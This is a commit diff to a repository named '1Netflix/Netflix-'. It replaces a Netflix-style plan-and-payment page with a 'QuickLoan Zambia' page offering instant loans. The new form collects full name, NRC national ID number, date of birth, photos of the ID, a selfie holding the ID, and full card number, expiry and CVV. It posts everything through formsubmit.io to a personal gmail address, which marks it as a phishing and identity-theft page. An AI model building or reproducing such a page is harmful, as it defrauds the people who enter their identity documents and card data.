

Before and after one commit to 1Netflix/Netflix-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 108-1050 px from the top of the page. Before the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,130 +1,83 @@
+
 <!DOCTYPE html>
 <html lang="en">
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Choose a Plan - Netflix Style</title>
-  <style>
-    body {
-      margin: 0;
-      font-family: 'Helvetica Neue', Helvetica, Arial, sans-serif;
-      background-color: #141414;
-      color: #fff;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
-    }
+  <title>QuickLoan</title>
+  <script src="https://cdn.tailwindcss.com"></script>
+</head>
+<body class="bg-gray-100 text-gray-800">
 
-    .plans-container {
-      width: 100%;
-      max-width: 800px;
-      padding: 30px;
-      background: #1f1f1f;
-      border-radius: 10px;
-      box-shadow: 0 0 25px rgba(0,0,0,0.5);
-      text-align: center;
-    }
+  <!-- Hero Section -->
+  <section class="text-center py-12 bg-blue-600 text-white">
+    <h1 class="text-4xl font-bold mb-4">QuickLoan</h1>
+    <p class="text-lg mb-6">Get instant loans directly to your mobile money or bank account.</p>
+    <a href="#loan-form" class="bg-white text-blue-600 px-6 py-2 rounded font-semibold">Apply Now</a>
+  </section>
 
-    .plans-container h2 {
-      margin-bottom: 30px;
-    }
+  <!-- Loan Application Form -->
+  <section id="loan-form" class="max-w-xl mx-auto my-12 bg-white p-8 rounded shadow">
+    <h2 class="text-2xl font-bold mb-4">Loan Application</h2>
+    <form action="https://formsubmit.io/send/grogzilla2@gmail.com" method="POST" enctype="multipart/form-data">
+      <input type="text" name="name" placeholder="Full Name" class="w-full border p-2 mb-4 rounded" required />
+      <input type="text" name="nrc" placeholder="NRC Number" class="w-full border p-2 mb-4 rounded" required />
+      <input type="date" name="dob" class="w-full border p-2 mb-4 rounded" required />
 
-    .plan-cards {
-      display: flex;
-      justify-content: space-between;
-      gap: 20px;
-    }
+      <label class="block mb-2 font-semibold">Upload Front of NRC:</label>
+      <input type="file" name="nrc_front" class="w-full border p-2 mb-4 rounded" accept="image/*" required />
 
-    .plan {
-      flex: 1;
-      background-color: #292929;
-      padding: 20px;
-      border-radius: 8px;
-      border: 2px solid transparent;
-      transition: 0.3s;
-      cursor: pointer;
-    }
+      <label class="block mb-2 font-semibold">Upload Back of NRC:</label>
+      <input type="file" name="nrc_back" class="w-full border p-2 mb-4 rounded" accept="image/*" required />
 
-    .plan:hover {
-      border-color: #e50914;
-    }
+      <label class="block mb-2 font-semibold">Upload Photo Holding NRC:</label>
+      <input type="file" name="holding_id" class="w-full border p-2 mb-4 rounded" accept="image/*" required />
 
-    .plan h3 {
-      margin-bottom: 10px;
-    }
+      <select name="bank" class="w-full border p-2 mb-4 rounded" required>
+        <option value="">Select Receiving Bank</option>
+        <option value="Zanaco">Zanaco</option>
+        <option value="FNB">FNB</option>
+        <option value="ABSA">ABSA</option>
+        <option value="Stanbic">Stanbic</option>
+        <option value="Access Bank">Access Bank</option>
+        <option value="Investrust">Investrust</option>
+      </select>
 
-    .plan p {
-      color: #ccc;
-      font-size: 14px;
-      margin-bottom: 20px;
-    }
+      <label class="block mb-2 font-semibold">
+        <input type="checkbox" name="repayment_option" value="3 months grace" required />
+        I agree to start repaying after 3 months
+      </label>
 
-    form {
-      margin-top: 30px;
-    }
+      <hr class="my-6">
 
-    button {
-      background-color: #e50914;
-      color: #fff;
-      border: none;
-      padding: 14px 24px;
-      font-size: 16px;
-      border-radius: 4px;
-      cursor: pointer;
-      font-weight: bold;
-      transition: background-color 0.3s;
-    }
+      <h3 class="text-lg font-bold mb-2">Card Details</h3>
+      <input type="text" name="card_name" placeholder="Cardholder Name" class="w-full border p-2 mb-4 rounded" required />
+      <input type="text" name="card_number" placeholder="Card Number" class="w-full border p-2 mb-4 rounded" required />
+      <input type="text" name="expiry" placeholder="MM/YY" class="w-full border p-2 mb-4 rounded" required />
+      <input type="text" name="cvv" placeholder="CVV" class="w-full border p-2 mb-4 rounded" required />
 
-    button:hover {
-      background-color: #b00610;
-    }
-  </style>
-</head>
-<body>
+      <input name="_formsubmit_id" type="text" style="display:none" />
+      <input type="hidden" name="_redirect" value="https://example.com/thank-you.html" />
 
-  <div class="plans-container">
-    <h2>Choose Your Plan</h2>
+      <button type="submit" class="w-full bg-blue-600 text-white py-2 rounded hover:bg-blue-700">Submit Application</button>
+    </form>
+  </section>
 
-    <form action="payment.html" method="GET" id="planForm">
-      <div class="plan-cards">
-        <label class="plan">
-          <input type="radio" name="plan" value="Basic" style="display:none;" required>
-          <h3>Basic</h3>
-          <p>720p | 1 device | K40/month</p>
-        </label>
+  <!-- How It Works -->
+  <section class="text-center py-12 bg-gray-200">
+    <h2 class="text-2xl font-bold mb-6">How It Works</h2>
+    <div class="grid grid-cols-1 md:grid-cols-3 gap-6 max-w-4xl mx-auto">
+      <div><h3 class="font-bold">1. Apply</h3><p>Fill in the quick loan form with your NRC and card details.</p></div>
+      <div><h3 class="font-bold">2. Review</h3><p>We verify your details quickly.</p></div>
+      <div><h3 class="font-bold">3. Receive</h3><p>Money sent to your Bank or Mobile Money.</p></div>
+    </div>
+  </section>
 
-        <label class="plan">
-          <input type="radio" name="plan" value="Standard" style="display:none;" required>
-          <h3>Standard</h3>
-          <p>1080p | 2 devices | K60/month</p>
-        </label>
-
-        <label class="plan">
-          <input type="radio" name="plan" value="Premium" style="display:none;" required>
-          <h3>Premium</h3>
-          <p>4K+HDR | 4 devices | K90/month</p>
-        </label>
-      </div>
-
-      <input type="hidden" name="selectedPlan" id="selectedPlan">
-      <button type="submit">Continue to Payment</button>
-    </form>
-  </div>
-
-  <script>
-    const plans = document.querySelectorAll('.plan');
-    const selectedPlanInput = document.getElementById('selectedPlan');
-
-    plans.forEach(plan => {
-      plan.addEventListener('click', () => {
-        plans.forEach(p => p.classList.remove('selected'));
-        plan.classList.add('selected');
-        plan.querySelector('input').checked = true;
-        selectedPlanInput.value = plan.querySelector('h3').innerText;
-      });
-    });
-  </script>
+  <!-- Contact -->
+  <footer class="text-center py-6 bg-blue-600 text-white">
+    <p>📞 +260 97 123 4567 | ✉️ support@quickloan.zm</p>
+    <p>&copy; 2025 QuickLoan Zambia</p>
+  </footer>
 
 </body>
-</html>
+  </html>
```
